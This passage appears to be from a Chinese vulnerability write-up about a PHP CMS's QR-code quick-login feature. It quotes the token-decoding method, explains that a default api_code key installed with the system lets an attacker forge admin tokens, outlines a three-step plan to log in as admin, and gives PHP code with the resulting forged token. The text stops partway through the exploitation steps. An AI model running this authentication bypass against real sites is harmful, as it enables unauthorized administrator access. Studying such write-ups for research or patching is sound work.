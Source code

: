 ```php
    $msg = $this->lib('token')->decode($content);
    if(!$msg || !is_array($msg) || !$msg['id'] || !$msg['user'] || !$msg['time'] || !$msg['domain']){
       $this->error(P_Lang('数据解码失败'));
    }
    //超过30天，告知无效
    $time = $this->time - $msg['time'];
    if($time>(30*24*60*60)){
       $this->error(P_Lang('数据超过30天，自动无效'));
    }
    $domain = $this->_domain();
    if($msg['domain'] != $domain){
       $this->error(P_Lang('数据来源不准确'));
    }
    $rs = $this->model('admin')->get_one($msg['id']);
    if(!$rs || $rs['account'] != $msg['user']){
       $this->error(P_Lang('账号不一致'));
    }
    $data = array('id'=>$rs['id'],'user'=>$rs['account'],'time'=>$this->time);
    $data['domain'] = $domain;
    //基于临时密码生成账号密串
    $keyid = $this->lib('file')->cat($file);
    $this->lib('token')->keyid($keyid);
    $this->lib('token')->expiry(300);
    $logincode = $this->lib('token')->encode($data);
    $this->model('log')->add(P_Lang('生成客户端密钥，用于下次扫码快速确认登录'));
    $this->success(array('account'=>$rs['account'],'logincode'=>$logincode));
}
```

该方法首先用`config`数据表中的`api_code`的内容作为密钥来解密请求参数`content`的密文，当存在`id`、`user`、`time`、`domain`四个键值对

时会找到请求参数`$fid`对应文件的内容做密钥，加密`$data`变量，并将结果在`logincode`字段返回。可以看到`$data`的内容和`update_f`方法中`quickcode`的键值是完全相同的。并且`config`数据表是安装时进行初始化的属于默认值。

根据上面分析我们可以有如下思路

1.  利用数据库中`api_code`的值来加密用户为`admin`的信息
2.  利用`checkadm`接口来生成`update`接口所需的加密字符串
3.  通过访问`update`接口生成checking文件进行登录

ps：好像一切都想好的地方发展，难道成了？！

## 0x04 思路实现

1.  编写代码生成`admin`信息加密文本

```php
$data = array('id'=>1, 'user'=>'admin', 'time'=>'1698570334', 'domain'=>'192.168.31.243');
$api_code = $this->model('config')->get_one('api_code',$this->site['id']);
$this->lib('token')->keyid($api_code);
$msg = $this->lib('token')->encode($data);
$this->success($msg);

//res: {"info":"bdd983NgUnCTROK1Ksf7\/brkwgpThiRBRoWfgRzzVducS7Fzg1ND9mbR3mNGg6R6VvAy2CVIaMOwOyAa7PbZgZWkzspzFBs4oWPY1VcJyQ0xZ3WmSXsIXEiFSuXYqMcLpMXFs","status":1}
```
